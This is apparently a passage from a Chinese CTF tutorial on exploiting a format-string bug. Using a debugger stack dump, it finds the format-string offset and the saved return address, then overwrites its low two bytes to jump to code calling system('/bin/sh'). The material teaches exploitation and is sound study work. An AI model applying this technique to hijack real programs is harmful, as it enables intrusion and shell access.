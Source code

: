 此时栈的情况为

```text
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为 5 + 3 = 8。

#### 修改地址

我们再仔细观察下断点处栈的信息

```text
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用 show account 函数时执行 push rip 所存储的值)，在格式化字符串中的偏移为 7。

与此同时栈上，第一个元素存储的也就是上一个函数的 rbp。所以我们可以得到偏移 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38。继而如果我们知道了 rbp 的数值，就知道了函数返回地址的地址。

0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是在某些较新的系统(如 ubuntu 18.04)上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash, 这时可以考虑修改返回地址为 0x00000000004008AA,  即直接调用 system("/bin/sh") 处

```assembly
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```
